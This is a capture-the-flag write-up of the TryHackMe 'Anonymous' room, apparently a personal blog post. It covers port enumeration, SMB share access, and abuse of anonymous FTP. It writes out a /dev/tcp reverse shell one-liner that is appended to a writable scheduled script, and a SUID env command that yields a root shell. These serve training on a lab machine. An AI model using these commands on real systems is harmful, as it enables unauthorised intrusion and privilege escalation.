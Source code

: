 ```yaml
---
title: THM - Anonymous
author: guialvesf
date: 2022-03-24 01:00:00 -0300
categories: [tryhackme, writeup]
tags: [tryhackme, writeup]
image: "/img/thm/anonymous/anonymous.png"
alt: "tryhackme"
---
```


<p align="center" width="100%">
    <img src="/img/thm/anonymous/anonymous.png"> 
</p>
<hr>

# Questions
* Enumerate the machine.  How many ports are open?
* What service is running on port 21?
* What service is running on ports 139 and 445?
* There's a share on the user's computer.  What's it called?
<br>

Ok, we have four questions before User and Root flags, let's start enumerating the machine to answer the first one.

[Anonymous room](https://tryhackme.com/room/anonymous)

# Enumeration
![nmap](/img/thm/anonymous/nmap.png)

Let's start with standard nmap scan `nmap -sC -sV -oA nmap -v $IP`.
* sC - Default nmap scripts
* sV - Open ports services/version
* oA - Save output to 'nmap' file
* v  - Verbose mode

This is enough to answer the first tree questions. There's four open ports: 21 FTP, 22 SSH, 139 and 445 Samba.

To fourth question we'll need to run an another nmap script. As we can see, there are a Samba service running on machine, so we'll use a nse script to enumerate it. `nmap --script smb-enum-shares.nse -p 445,139 -v -oA smb $IP`

![smb](/img/thm/anonymous/smbNmap.png)

Nice, question answered, but why not access it? Using smbclient we can access this share and check it out. `smbclient \\\\$IP\\pics`

![smbclient](/img/thm/anonymous/smbclient.png)

Ok, nothing interesting here, so let's take a look at FTP server. It's allowing anonymous login.

![ftp](/img/thm/anonymous/ftpFiles.png)

Here I found 3 files:
* clean.sh
* removed_files.log
* to_do.txt

With basics FTP commands can we download these files to check it out. Taking a look at log file can I presume that `clean.sh` files are constantly being executed. So let's read it.

![cleansh](/img/thm/anonymous/cleanSh.png)

We have permissions to write inside this file, so let's do it with `append` command. First of all create a local file and put `bash -c 'exec bash -i &>/dev/tcp/$IP/$PORT <&1'` inside it.

![shell](/img/thm/anonymous/shell.png)

Then we'll append it to remote file, it will execute this command and give us a reverse shell.

![append](/img/thm/anonymous/append.png)

Don't forget to run Netcat to wait connection.

![user](/img/thm/anonymous/user.png)

Ok, it's PRIVESC TIME! To do it I used LinPEAS and reading the output I found something strange. Running a basic command can we get a root shell. So just typing `/usr/bin/env /bin/sh -p` we scalate our privileges.

![root](/img/thm/anonymous/root.png)
